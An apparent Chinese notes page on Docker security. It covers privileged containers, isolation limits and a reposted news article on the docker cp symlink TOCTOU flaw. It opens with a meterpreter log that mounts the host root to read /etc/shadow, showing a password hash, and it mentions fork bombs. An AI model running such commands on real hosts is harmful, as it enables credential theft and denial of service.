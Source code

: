 ```
meterpreter > execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow" Process 113 created. Channel 13 created. root:$1$UFKdtFGw$qp29y1qGWit/vnvIG0uSr1:17488:0:99999:7::: daemon:*:17488:0:99999:7::: bin:*:17488:0:99999:7::: sys:*:17488:0:99999:7::: sync:*:17488:0:99999:7::: games:*:17488:0:99999:7::: man:*:17488:0:99999:7::: lp:*:17488:0:99999:7::: mail:*:17488:0:99999:7::: news:*:17488:0:99999:7:::
```




privileged 使用该参数，container 内的 root 拥有真正的 root 权限。
否则，container 内的 root 只是外部的一个普通用户权限。
privileged 启动的容器，可以看到很多 host 上的设备，并且可以执行 mount。
甚至允许你在 docker 容器中启动 docker 容器。

所以如果没有使用 privileged 参数，应该是安全的沙盒模式。


> 能进到宿主环境吗
进到这个词太抽象了，是指的隔离性吗？
docker 的隔离性一般情况是足够的，但还是有办法读取到宿主环境的一些信息。(不管你开不开 privileged)
最常见的场景 cgroup 隔离性不足
就是 cgroup namespace 的支持需要打内核补丁，所以你在 docker 环境里可以读取宿主机上的进程信息。
所以对此有了很多解决方案。阿里推的 https://github.com/alibaba/pouch 主打特性就是 Strong isolation, 对比 docker 就是隔离性较弱了。

如果是黑客，一般到机器上扔个 fork 炸弹，弱一点的平台就挂了=。= 一试一个准

>http://www.52bug.cn/hkjs/5523.html




#毫不夸张的说，所有的 Docker 版本都存在同一个漏洞，这个漏洞可以让攻击者获得主机服务器上所有路径的读写访问权限。据了解，之所以会出现该漏洞，主要是因为 Docker 软件处理某些符号链接的方式，而这些符号链接中往往会包含有到其他目录或文件的路径的文件。

事件回溯
研究员 Aleksa Sarai 发现，在某些情况下，攻击者可以在路径解析时间和操作时间之间的短时间窗口将自己的符号链接插入到路径中。这是 TOCTOU 问题的一个变体，特别是“docker cp”命令，它可以将文件从主机复制到容器，或从容器复制到主机。

Sarai 表示，“这次攻击的基本前提是 FollowSymlinkInScope 遭受了相当根本的 TOCTOU 攻击。FollowSymlinkInScope 的目的是获取给定路径并安全解析，就好像进程位于容器内部一样。完整路径被解析之后，路径会被传递，同时会进行一些操作（例如，在’docker cp’的情况下，它会在创建流式传输到客户端的存档时打开）。”

“如果攻击者在解析之后、操作之前，向路径添加符号链接组件，那么主机上的符号链接路径组件就会被解析为 root。如果正好是在‘docker cp’的情况下，攻击者就可以对主机上的所有路径进行读写访问。”

研究人员认为针对 Docker 的这种攻击可能会持续几年时间。Sarai 针对这一漏洞开发了利用代码，并表示：潜在的攻击场景可能来自云平台，“最可能受到影响的是托管云，因为它允许配置文件复制到正在运行的容器中，也允许从容器中读取文件。”

虽然这个漏洞只有针对“docker cp”的攻击代码，但它是最容易被攻击的端点。另外还有一个值得注意的点，如果选择了一条路径，扩展了其中的所有符号链接，并假设该路径是安全的，那么这是一种非常危险的行为。

如何修复
“这个 Docker 漏洞虽然看起来很严重，但对大多数企业来说未必是紧急情况。” Capsule8 产品开发副总裁 Kelly Shortridge 表示：“Docker 的这个 TOCTOU 漏洞允许攻击者不仅在容器内，而且在主机上违反数据完整性和机密性。除了禁止在任何正在运行的容器上使用 docker cp 实用程序或使用攻击保护产品之外，利用 docker cp 的 Docker 用户很容易受到攻击，但仅限于动机足够强的攻击者，他们有意愿与 docker cp 竞争。”

据了解，Sarai 已经提交了针对该漏洞的修复建议，其中包括在使用文件系统时暂停容器。

这个问题最完整的解决方案是修改 chrootarchive，这样所有的存档操作都将以根目录作为容器 rootfs 进行 (而不是父目录，因为父目录是由攻击者控制的，所以导致了这个漏洞)。不过，要对 Docker 核心部分做更改几乎是不可能完成的事情。
